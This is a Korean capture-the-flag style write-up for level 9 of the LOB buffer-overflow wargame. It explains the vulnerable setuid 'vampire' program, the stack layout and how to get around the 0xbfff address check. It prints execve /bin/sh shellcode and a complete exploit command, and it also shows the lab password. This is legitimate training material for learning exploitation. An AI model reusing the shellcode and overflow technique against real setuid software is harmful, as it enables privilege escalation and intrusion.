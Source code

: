 ```yaml
---
title: BOF/ LOB-level9(troll)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식이다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 9(troll)
**ID : troll**  
**PASSWD : aspirin**  

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level9/1.PNG)  
사용자 vampire의 권한의 vampire파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 vampire의 권한으로 파일을 실행할 수 있다.**  
**vampire파일이 쉘을 실행시키도록 한다면 사용자 vampire의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }
.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
{% endhighlight %}  
**vampire.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 같이 argv[2]를 이용한 공격 불가**  
2. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
3. argv[1][46]의 값이 \xff인 경우 "but it's not forever"를 출력하고 프로그램 종료  
**argv[1][44]~argv[1][47]은 RET에 변조될 값인데 지금까지 bof시키던 주소값들은 bfffxxxx의 형식이였다.**  
**즉, 주소값을 조작할 방법을 찾아야 한다.**  
4. main에 전달받은 인자 argv[1]을 buffer에 복사하여 출력(argv[0]은 파일명)  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  

### Solution  
**[LOB(level5)](https://limjunho.github.io/2019/11/03/LOB-level5(orc).html#lob-level-5orc)와 비슷하게 argv[2]를 이용해 공격.**  
**스택은 높은 주소에서 낮은 주소로 자란다. -> argv[2]가 argv[1]보다 먼저 stack에 저장되기 때문에 argv[2]에 많은 값을 삽입하면 argv[1]의 주소가 낮아지게 될 것이다.**  


#### level9에서 사용한 쉘코드  
**\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
**25Byte**  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### debugging  
**권한문제가 없도록 gremlin를 복사하고 gdb를 사용하여 intel방식으로 디스어셈블 한다.**  

![그림2](/assets/LOB/level9/2.PNG)  
main함수 disassemble.  

![그림3](/assets/LOB/level9/3.PNG)  
main함수 종료 전에 breakpoint를 걸고 인자를 전달해보았다.  
**전달한 인자(argv[0])가 0xbfff~범위에 있음을 확인**  

![그림4](/assets/LOB/level9/4.PNG)  
**argv[2]에 A를 20000개 전달하였더니 argv[1]의 주소가 낮아진것을 확인**
**A를 20000개 전달했을 때, argv[1]주소 -> 0xbfffae08**  
하지만 여전히 bfff의 형식임.  

![그림5](/assets/LOB/level9/5.PNG)  
**argv[2]에 AAAA를 20000개 전달하였더니 argv[1]의 주소가 낮아진것을 확인**
**A를 20000개 전달했을 때, argv[1]주소 -> 0xbffec3a8**

### argv[1]주소확인  
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }
.
        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[1]);
}
{% endhighlight %}  
**vampire.c를 복사하여 소스 추가 -> printf("%p\n", argv[1]);**  

![그림6](/assets/LOB/level9/6.PNG)  
**정확한 주소 체크. -> 0xbffec3a6**  

### Attack  

argv[1]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./vampire + [ShellCode] + [dummy] + [argv[1]주소]**의 형태로 공격.  
**이 때 ShellCode + dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**  
**또한 RET에 덮을 argv[1]의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림7](/assets/LOB/level9/7.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./vampire `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A' * 19 + '\xa6\xc3\xfe\xbf'"` `python -c "print 'AAAA' * 20000"`
```